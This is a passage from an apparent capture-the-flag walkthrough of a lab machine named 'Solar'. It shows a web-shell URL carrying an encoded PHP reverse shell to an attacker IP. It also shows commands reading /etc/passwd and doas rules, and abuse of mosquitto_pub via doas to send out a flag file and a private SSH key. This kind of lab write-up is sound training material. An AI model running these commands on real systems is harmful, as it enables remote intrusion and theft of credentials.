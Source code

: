 ```
https://www.solar.nyx/records/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C12345%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

We now have a `shell` with `www-data`.

![alt text](../../assets/images/solar/image-13.png)

## www-data to Lenam

We handle the TTY setup.

```bash
$ cat /etc/passwd|grep sh  
root:x:0:0:root:/root:/bin/bash
lenam:x:1000:1000:,,,:/home/lenam:/bin/bash
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
julian:x:1001:1001::/home/julian:/bin/sh

$ cat /etc/doas.conf 
permit nopass www-data as lenam cmd /usr/bin/mosquitto_pub
permit lenam as julian cmd /bin/kill
permit setenv { PATH } julian as root cmd /usr/local/bin/backups

```

We can execute `mosquitto_pub` as the `lenam` user via `doas` without a password.

### Retrieving `user.txt` and `id_ed25519` from lenam

We find the flag at `/home/lenam/user.txt` and also some SSH keys. We subscribe to the `filtrate` topic on the MQTT client and execute the following commands.

```bash
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/user.txt
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/.ssh/id_ed25519
```